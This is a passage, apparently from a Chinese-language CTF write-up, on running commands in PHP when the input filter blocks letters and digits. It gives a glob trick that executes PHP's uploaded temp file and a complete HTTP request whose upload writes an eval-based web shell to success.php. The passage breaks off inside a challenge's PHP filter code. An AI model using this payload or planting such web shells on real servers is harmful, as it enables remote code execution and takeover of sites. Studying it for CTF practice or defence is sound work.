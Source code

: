 ```php
. /???/????????[@-[]
```
最后的[@-[]表示ASCII在@和[之间的字符，也就是大写字母，所以最后会执行的文件是tmp文件夹下结尾是大写字母的文件。由于PHP生成的tmp文件最后一位是随机的大小写字母，所以我们可能需要多试几次才能正确的执行我们的代码。(50%的几率嘛)  
固有最终数据包:
```php
POST /?code=?><?=`.+/%3f%3f%3f/%3f%3f%3f%3f%3f%3f%3f%3f[%40-[]`%3b?> HTTP/1.1
Host: xxxxxx:2333
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type:multipart/form-data;boundary=--------123
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 106

----------123
Content-Disposition:form-data;name="file";filename="1.txt"

echo "<?php eval(\$_POST['shell']);" > success.php
----------123--
```
上面我们写入了一个shell。如图，成功Getshell。
![](/blog_img/noneword-9.png)

# 几道题目
## 题目一
``` PHP
<?php

if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>50){
        die("Too Long.");
    }
    if(preg_match("/[A-Za-z0-9_]+/",$code)){
```